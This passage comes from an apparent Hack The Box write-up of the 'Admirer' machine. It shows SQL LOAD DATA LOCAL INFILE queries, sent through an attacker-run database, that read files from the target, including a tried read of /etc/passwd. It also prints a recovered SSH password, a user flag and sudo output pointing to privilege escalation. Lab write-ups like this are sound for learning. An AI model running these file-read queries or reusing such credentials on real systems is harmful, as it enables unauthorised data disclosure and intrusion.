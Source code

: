 > As you can see, I named my temporary database `TEMPDB` and I'm connected to my HTB private IP `10.10.14.6`.

#### Exploit

In order to perform a similar exploit as in the article [video](https://play.vidyard.com/2v2dccGr2NKWrXsVzkNn8w?disable_popouts=1&v=4.2.27&viral_sharing=0&embed_button=0&hide_playlist=1&color=FFFFFF&playlist_color=FFFFFF&play_button_color=2A2A2A&gdpr_enabled=1&type=inline&new_player_ui=1&autoplay=0&loop=0&muted=0&hidden_controls=0), we have to create a table by clicking on "Create table" link on the left of the page.

However there is no such file as `app/etc/local.xml` as we can see:

![Can't find file](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/admirer/error-file.png)

Let's be creative. What about `/etc/passwd`:

![Unable to open file](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/admirer/error-permission.png)

Arg! Let's try `admin_tasks.php` since we are in the same directory:

```sql
LOAD DATA LOCAL INFILE 'admin_tasks.php'
INTO TABLE TEMPDB.backup
FIELDS TERMINATED BY "\n"
```

![query success](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/admirer/query-success.png)

Bu there is nothing interesting:

![admin_tasks.php in SQL table](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/admirer/arg.png)

Looking at `../index.php`, we can see there are new credentials:

```sql
LOAD DATA LOCAL INFILE '../index.php'
INTO TABLE TEMPDB.backup
FIELDS TERMINATED BY "\n"
```

![new creds](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/admirer/new-pass.png)

- **username**: `waldo`
- **password**: `&<h5b~yK3F#{PaPB&dA}{H>`

Using these credentials we can log in to ssh:

![ssh](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/admirer/ssh.png)

## User (`waldo`)

```bash
waldo@admirer:~$ cat user.txt 
2cf909ef8117cf88a7793227946a8fff
waldo@admirer:~$ sudo -l
[sudo] password for waldo: 
Matching Defaults entries for waldo on admirer:
    env_reset, env_file=/etc/sudoenv, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, listpw=always

User waldo may run the following commands on admirer:
    (ALL) SETENV: /opt/scripts/admin_tasks.sh
waldo@admirer:~$ 
```
